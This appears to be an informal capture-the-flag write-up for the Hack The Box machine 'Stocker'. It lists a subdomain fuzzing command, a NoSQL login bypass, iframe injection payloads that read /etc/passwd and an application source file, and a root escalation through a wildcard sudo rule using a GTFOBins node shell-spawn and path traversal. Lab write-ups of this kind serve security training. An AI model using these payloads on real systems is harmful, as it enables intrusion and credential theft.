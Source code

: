 
ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://stocker.htb -H "HOST: FUZZ.stocker.htb" -fc 301   => subdomain

Hacktrick ka content twe ko myar myar phat

I bypass login with this content

=> i change application => /json

and then i add bypass payload from hacktrick nosql login bypass

I was entering to the main page => i added something and i get voucher

I using burp to catch this and change with following payload

``<iframe src=/etc/passwd height=1000px width=1000px></iframe>
``<iframe src=file:///var/www/dev/index.js height=1000px width=1000px></iframe>

I get username and password from this page and i get user #### Done

I run sudo -l

I found  User angoose may run the following commands on stocker:
`    `(ALL) /usr/bin/node /usr/local/scripts/*.js   => this one
so i abuse this file 

i going to gtfo bin and i using this payload
```
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

and i was run with this command  => cuz I found `*`  
sudo  /usr/bin/node /usr/local/scripts/../../../../../tmp/r0ot.js

i get fucking root haha####


![[loginpass.png]]

![[user.png]]![[root 1.png]]